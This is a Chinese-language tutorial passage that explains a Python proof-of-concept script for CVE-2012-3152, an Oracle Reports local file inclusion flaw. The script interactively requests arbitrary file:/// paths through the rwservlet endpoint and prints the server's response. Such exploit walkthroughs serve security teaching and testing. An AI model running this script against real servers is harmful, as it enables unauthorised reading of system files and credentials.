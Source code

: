 # 用例 3: CVE-2012-3152

# CVE-2012-3152

* * *

这一小段代码是演示的 CVE-2012-3152 Oracle 本地文件包含的漏洞利用 PoC,与前一个 PoC 示例有点类似，也是通过循环可以无限输入需要访问文件目录。对于下面这一段脚本无前面有点不同。增加了一点交互性的东西。通过[termcolor](https://pypi.python.org/packages/source/t/termcolor/termcolor-1.1.0.tar.gz)模块来实现:

```
#!/usr/bin/python
import sys, urllib2    # 导入需要的包
from termcolor import colored   # 这里需要下载"termcolor"模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确"<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的 URL
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:        #  循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  resource=raw_input(colored("~$ ", "red"))
  req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
  try:                    # 使用 Try/Except 处理响应信息
    response=urllib2.urlopen(URL+req)
    # 发起请求并且显示响应内容
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e 
```

![oracle](img/0x15.png)